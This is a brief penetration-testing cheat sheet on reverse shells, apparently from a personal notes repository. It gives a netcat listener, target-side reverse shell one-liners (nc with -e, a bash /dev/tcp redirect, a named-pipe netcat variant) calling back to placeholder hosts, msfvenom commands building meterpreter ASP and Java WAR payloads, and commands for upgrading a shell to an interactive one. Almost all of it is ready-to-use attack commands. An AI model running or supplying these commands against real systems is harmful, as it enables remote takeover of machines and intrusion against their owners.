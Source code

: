 # Reverse shells

Attacker runs:
```
nc -nvlp <port>
```

Target runs:
```
nc -nv <ip> <port> -e <cmd>
```
or:
```
bash -i >&/dev/tcp/x.x.x.x/443 0>&1
```
OR:
```
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv LHOST LPORT 1> /tmp/1
```


## Metasploit venom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshell.asp
```

## Interactive shell upgrade

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
```
/usr/bin/script -qc /bin/bash /dev/null
```

## WAR

```
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=443 -f war > hacketyhack.war
```
